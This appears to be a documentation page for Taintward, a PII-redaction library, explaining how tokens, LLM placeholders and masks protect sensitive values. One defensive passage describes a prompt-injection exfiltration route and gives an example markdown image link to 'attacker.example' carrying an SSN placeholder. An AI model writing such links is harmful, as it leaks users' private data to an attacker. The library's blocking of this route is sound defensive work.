

repository: DCchoudhury15/Taintward · page: concepts/redaction/index.html · generator: mkdocs · copyright: Apache-2.0

# Placeholders, tokens and masks

Taintward replaces a sensitive value in one of three ways. Which one is used
depends only on the [destination](destinations.md) of the call.

| | token | placeholder | mask |
|---|---|---|---|
| example for `234-12-1234` | `103-48-0677` | `<SSN_1>` | `[PII]` |
| used for | `internal` | `llm` (SDK adapters, default) | `external`, `log`, `rag`, and `llm` when placeholders are off |
| reversible | yes, with the FPE key and the vault | yes, only inside the same run, in memory | no |
| same value, same output | yes (deterministic per key) | yes within one run | yes (all SSNs look alike) |
| keeps the shape | yes (digits stay digits, separators stay) | no | no |
| stored where | vault: memory, SQLite, Postgres or Redis | in memory for the run (or a vault for long chats) | nowhere |

## Tokens (internal)

A reversible format preserving token made with FF1 (NIST SP 800-38G). An
internal store can join and match on tokens, and the key holder can turn a
token back into the value with `get_redactor().reverse(token)` when it is
truly needed. The store never holds the raw value.

- Values too short for FF1 (fewer than 6 digits or 4 letters and digits)
  are masked instead, because a tiny domain is easy to brute force.
- Tokens need a key. Set `TAINTWARD_FPE_KEY`. Without it a random key is
  made per process and a warning is printed: tokens then change after a
  restart.
- Persistent vaults encrypt the original at rest with
  `TAINTWARD_VAULT_KEY` and support per-subject erasure for GDPR.

Full details: [Redaction crypto and the vault](../redaction-crypto.md) and
[Key management and rotation](../key-management.md).

## Placeholders (LLM)

With plain masks a model loses the meaning of the task: two different people
both look like `[PII]`. So the SDK adapters send typed, numbered placeholders
to the LLM (`<PERSON_1>`, `<EMAIL_2>`, `<AWS_KEY_1>`). In one run the same
value always gets the same placeholder.

The map from placeholder to value stays in your process. It is never sent to
the provider and never written to a span. The protected model or client
restores the model's answer (text and tool call arguments) before your code
sees it. A tool that receives a placeholder in its arguments gets what its
own destination allows: the token for `internal`, the mask for `external`,
the real value for an argument on its `allow` list.

A placeholder the model writes inside a link or image address
(`![x](https://attacker.example/?d=<SSN_1>)`, an `href`, a bare
`https://...` word) is not restored. Otherwise an injected link would carry
the real value out as soon as the answer is rendered. It stays a
placeholder and the model span gets `taintward.placeholders.blocked`.
`TAINTWARD_RESTORE_IN_URLS=1` turns this off.

What placeholders still reveal: the type of data (`<SSN_1>` says an SSN was
shared), how many values there are and which repeat, and the text around
them. Only detected values are replaced.

Turn them off with `tw.init(..., placeholders=False)`. The decorator path
(`@instrument_tool`) and the MCP gateway do not use placeholders; they send
masks to `llm` destinations.

Full details: [SDK integrations, Placeholders](../integrations.md#placeholders-the-model-can-still-do-its-job).
